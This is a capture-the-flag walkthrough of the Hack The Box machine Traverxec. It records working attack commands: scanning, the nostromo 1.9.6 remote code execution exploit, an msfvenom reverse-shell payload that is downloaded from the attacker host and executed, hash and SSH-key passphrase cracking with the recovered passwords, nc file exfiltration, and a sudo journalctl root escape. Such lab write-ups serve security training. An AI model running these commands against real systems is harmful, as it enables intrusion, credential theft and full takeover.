# [Traverxec](https://app.hackthebox.eu/machines/217)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.165 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.165 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.165
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.165
```

The quick TCP scan returns the following:


Start with a scan of the website:

```bash
nikto -h http://10.10.10.165/ -C all --maxtime=120s --output=nikto.txt
```



Then browse to the site manually:

```bash
firefox http://10.10.10.165/
```


Website looks like a basic HTML template from the following comment in the HTML:

```html
  <!-- =======================================================
    Template Name: Basic
    Template URL: https://templatemag.com/basic-bootstrap-personal-template/
    Author: TemplateMag.com
    License: https://templatemag.com/license/
  ======================================================= -->
```

Start the following directory scanner:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -q -z -o gobuster.txt -x php \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -a 'Mozilla/5.0' \
  -u http://10.10.10.165/ &
```

This returns some interesting results:

```
/icons (Status: 301)
/css (Status: 301)
/lib (Status: 301)
/js (Status: 301)
```

But looking at these directories does not show anything interesting. The results from `nmap` show an interesting header: `nostromo 1.9.6`. Check for an exploit:

```bash
searchsploit nostromo
```



Exploit 47837 looks interesting:

- https://www.exploit-db.com/exploits/47837

Try it out:

```bash
searchsploit -m 47837
vim 47837.py # remove the lines at the top
python2.7 47837.py 10.10.10.165 80 whoami
```



Nice! Use it to get a reverse shell:

```bash
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -f elf \
         -o bubba.elf
sudo python3 -m http.server 80
nc -nvlp 6969
python2.7 47837.py 10.10.10.165 80 "wget -O /dev/shm/bubba.elf 10.10.14.25/bubba.elf"
python2.7 47837.py 10.10.10.165 80 "chmod +x /dev/shm/bubba.elf"
python2.7 47837.py 10.10.10.165 80 "/dev/shm/bubba.elf"
```

This provides a shell but not `user.txt`:



Looking around the system shows an interesting file `/var/nostromo/conf/.htpasswd`:



Maybe that is a password hash to move laterally to the user `david`? Try cracking it:

- https://hashcat.net/wiki/doku.php?id=example_hashes

```bash
echo '$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/' > david.hash
hashid david.hash # [+] MD5 Crypt
hashcat --help | grep MD5 # 500 | md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
hashcat -m 500 -a 0 --quiet --potfile-disable david.hash rockyou.txt
```

Eventually this returns the following:

```
$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:Nowonly4me
```

But trying this password of `Nowonly4me` for `david` over SSH or using `su` does not work... Looking at the configuration files for the nostromo HTTP server helps with the next move (`/var/nostromo/conf/nhttpd.conf`):

```
# MAIN [MANDATORY]

servername		traverxec.htb
serverlisten		*
serveradmin		david@traverxec.htb
serverroot		/var/nostromo
servermimes		conf/mimes
docroot			/var/nostromo/htdocs
docindex		index.html

# LOGS [OPTIONAL]

logpid			logs/nhttpd.pid

# SETUID [RECOMMENDED]

user			www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess		.htaccess
htpasswd		/var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons			/var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs		/home
homedirs_public		public_www
```

A Google for `nhttpd config` brings up the following:

- https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=NHTTPD

It seems like the `homedirs` means that `/home` is being served. Trying to go to `http://10.10.10.165/~david/` shows the following:


Getting warmer. The documentation says that `homedirs_public` creates a servable web directory in the user's home folder. Trying to look at it directly shows some interesting contents:

```bash
ls -laRh /home/david/public_www/
```



The `backup-ssh-identity-files.tgz` looks juicy. Download and extract it:

```bash
cp /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz /dev/shm/
cd /dev/shm/
tar -xvf backup-ssh-identity-files.tgz
```



It seems like the user `david` has his own SSH public key added to `/home/david/.ssh/authorized_keys`. Copy `backup-ssh-identity-files.tgz` to Kali:

```bash
# run on kali
nc -nvlp 7777 > ssh.tgz
# run on target as www-data
nc -nv 10.10.14.25 7777 < /dev/shm/backup-ssh-identity-files.tgz
```

Now extract and prep the SSH directory to be used:

```bash
tar -xvf ssh.tgz
mv home/david/.ssh .
chmod 700 ./.ssh
chmod 644 ./.ssh/id_rsa.pub
chmod 600 ./.ssh/id_rsa
ssh -i ./.ssh/id_rsa david@10.10.10.165
```

However, using this key asks for a password? Try to extract and crack the hash:

- Hash starts with `$sshng$1$16$`, which matches hashcat module 22931
- https://hashcat.net/wiki/doku.php?id=example_hashes

```bash
$(find / -iname ssh2john.py 2>/dev/null) ./.ssh/id_rsa | cut -d ':' -f2 > ssh.hash
hashcat -m 22931 -a 0 --quiet --potfile-disable ssh.hash rockyou.txt
```

This returns the following error:

```
/usr/share/hashcat/modules/module_22931.so: cannot open shared object file: No such file or directory
```

Build hashcat from source:

```bash
git clone https://github.com/hashcat/hashcat.git
cd hashcat
make
./hashcat -m 22931 -a 0 --quiet --potfile-disable ../ssh.hash ../rockyou.txt
```

And this has a hit:



Now connect to the target as `david` with the SSH key password of `hunter`:

```bash
ssh -i ./.ssh/id_rsa david@10.10.10.165 # hunter
```

And this gives `user.txt`:



There is an interesting directory in `/home/david/`:



`server-stats.sh` has the following content:

```bash
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

This script is interesting since it calls `sudo`. Trying to run `sudo -l` asks for a password and `hunter` or `Nowonly4me` do not work. `journalctl` is a known vector for Sudo:

- https://gtfobins.github.io/gtfobins/journalctl/

Run the following command and enter `!/bin/sh` to get a `root` shell:

```bash
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```



